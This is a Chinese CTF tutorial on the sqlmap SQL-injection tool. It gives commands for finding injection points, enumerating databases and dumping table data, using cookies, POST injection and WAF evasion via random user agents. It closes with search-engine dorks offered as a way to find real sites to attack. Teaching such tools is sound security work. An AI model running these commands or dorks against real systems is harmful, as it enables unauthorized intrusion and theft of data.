








# CTF入门教程：P42：sqlmap的使用 🛠️





在本节课中，我们将学习自动化SQL注入工具sqlmap的核心使用方法。我们将从基础命令开始，逐步深入到如何获取数据库信息、进行数据脱库以及处理需要登录或POST请求等复杂场景。

## 概述

sqlmap是一款开源的自动化SQL注入工具，能够检测和利用SQL注入漏洞。本节将详细介绍其基本命令、参数含义以及在实际CTF题目和漏洞挖掘中的应用。

## 基础使用与数据库信息获取



上一节我们介绍了SQL注入的基本原理，本节中我们来看看如何利用sqlmap自动化完成注入过程。首先，我们需要对目标URL进行测试。

**基本测试命令如下：**
```bash
python sqlmap.py -u "http://target.com/page.php?id=1"
```
执行此命令后，sqlmap会尝试多种注入技术进行检测。

当目标URL存在多个参数，但只有特定参数存在注入点时，可以使用 `-p` 参数指定注入点。
```bash
python sqlmap.py -u "http://target.com/page.php?id=1&page=10" -p page
```
此命令将只测试 `page` 参数。

为了在测试过程中无需手动确认，可以使用 `--batch` 参数。
```bash
python sqlmap.py -u "http://target.com/page.php?id=1" --batch
```

在确认存在注入点后，可以开始获取数据库信息。以下是获取信息的常用命令流程：

以下是获取数据库信息的步骤：
1.  **获取数据库名：** `python sqlmap.py -u "URL" --dbs`
2.  **获取指定数据库的表名：** `python sqlmap.py -u "URL" -D database_name --tables`
3.  **获取指定表的列名：** `python sqlmap.py -u "URL" -D database_name -T table_name --columns`
4.  **获取指定列的数据（脱库）：** `python sqlmap.py -u "URL" -D database_name -T table_name -C "column1,column2" --dump`

**请注意：** `--dump` 命令会导出表中数据，在实际未授权测试中**严禁使用**，以免触犯法律。

sqlmap运行后，结果会缓存并输出到本地文件，默认路径通常为 `C:\Users\[用户名]\.sqlmap\output\[目标域名或IP]\`。

## 处理需要认证的页面与POST注入



上一节我们学习了基础的信息获取，但在实战中，很多页面需要登录后才能访问。本节中我们来看看如何处理这类情况。

对于需要Cookie认证的页面，必须提供有效的会话Cookie。
```bash
python sqlmap.py -u "http://target.com/vuln_page.php?id=1" --cookie="PHPSESSID=abc123..." --batch
```
可以通过浏览器开发者工具控制台输入 `document.cookie` 获取当前页面的Cookie值。

GET型注入的请求中，User-Agent头会带有明显的sqlmap标志，容易被WAF识别。可以使用 `--random-agent` 参数随机使用UA头进行绕过。
```bash
python sqlmap.py -u "URL" --random-agent
```

当注入点存在于POST请求的数据体中时，需要先抓取请求包。可以使用BurpSuite等工具抓包，将完整的HTTP请求保存为文本文件（如 `post.txt`）。



以下是进行POST注入的步骤：
1.  使用抓包工具获取POST请求。
2.  将整个请求（包括请求头和数据体）保存到文件（如 `post.txt`）。
3.  使用 `-r` 参数指定请求文件，并用 `-p` 指定注入参数。
```bash
python sqlmap.py -r post.txt -p username --dbs
```

## 高级参数与实战挖掘

sqlmap的检测级别（`--level`）和风险等级（`--risk`）可以调整其检测的深度和广度。级别越高，检测的HTTP参数越多（如Cookie、User-Agent、Referer等）。





为了提高扫描速度，可以修改sqlmap的线程设置。配置文件位于 `sqlmap/lib/core/settings.py`，找到 `MAX_NUMBER_OF_THREADS` 变量，其默认值为1，可以根据需要增大。



在实战漏洞挖掘中，可以利用搜索引擎语法（Google Hacking）寻找潜在注入点。
例如，在搜索引擎中搜索以下语法：
- `inurl:.php?id=1`
- `inurl:.asp?id=1 公司`
- `inurl:.jsp?product_id=`

这些搜索结果的链接可能存在SQL注入漏洞，可以作为sqlmap的测试目标。

## 总结

本节课中我们一起学习了sqlmap工具的核心使用方法。我们从最基本的URL测试开始，逐步掌握了获取数据库名、表名、列名以及数据脱库的命令流程。我们还探讨了如何处理需要Cookie认证的页面、进行POST注入、使用随机UA头绕过检测以及调整扫描速度等高级技巧。最后，我们了解了如何利用搜索引擎语法进行实战漏洞挖掘。请务必牢记，所有技术学习都应在合法授权的环境中进行，未经授权的测试是违法行为。